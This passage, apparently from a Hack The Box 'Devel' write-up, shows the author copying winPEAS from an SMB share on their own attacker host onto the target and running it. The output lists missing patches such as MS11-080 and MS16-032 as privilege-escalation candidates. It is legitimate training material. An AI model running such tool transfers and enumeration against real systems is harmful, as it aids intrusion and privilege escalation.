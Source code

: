 Then copy the file that you need :

```
c:\Windows\Temp>copy \\10.10.14.4\liodeus\winPEAS.bat .
copy \\10.10.14.4\liodeus\winPEASany.exe .
        1 file(s) copied.
```

The file is upload, now run it :

```
winPEAS.bat
```

It will run and output a lot of informations. What i'm interresting in is this part :

```
[i] Check for vulnerabilities for the OS version with the applied patches
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/7/2020, 1:08:14 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 746 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.533 MB
Virtual Memory: In Use:    514 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

No Instance(s) Available.

"Microsoft Windows 7 Enterprise   " 
[i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
No Instance(s) Available.
MS11-080 patch is NOT installed! (Vulns: XP/SP3,2K3/SP3-afd.sys)
No Instance(s) Available.
MS16-032 patch is NOT installed! (Vulns: 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
```